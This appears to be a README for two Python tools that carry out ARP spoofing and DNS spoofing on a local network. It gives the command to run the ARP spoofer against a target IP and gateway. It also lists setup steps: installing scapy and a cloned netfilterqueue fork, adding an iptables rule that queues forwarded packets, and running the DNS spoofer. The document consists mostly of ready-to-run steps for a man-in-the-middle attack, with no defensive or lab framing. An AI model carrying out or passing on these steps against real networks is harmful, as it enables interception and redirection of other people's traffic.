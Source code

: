 # Usage ARPSPOOF:
```bash
$python spoofi.py -t 10.0.2.4 -g 10.0.2.1
```
- `t` ***Target***
- `g` ***Gateway***


---------------------------------------------------------------------------------------------------------

# Usage DNSPOOF

* Install scupy
```bash
apt-get install tcpdump graphviz imagemagick python-gnuplot python-crypto python-pyx
pip install scapy
```
* Install netfilterqueue
```bash
apt-get install build-essential python-dev libnetfilter-queue-dev
git clone https://github.com/nu11secur1ty/python-netfilterqueue
cd python-netfilterqueue
python setup.py install
```
* Create queue
```bash
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
* Run arp spoofing script
```bash
python spoofi.py -t target_ip -g gateway_ip
```
* Run dns_spoofing script
```bash
python dnspoofi
```
Run script with --help to get help
```bash
python dnspoofi.py --help
```
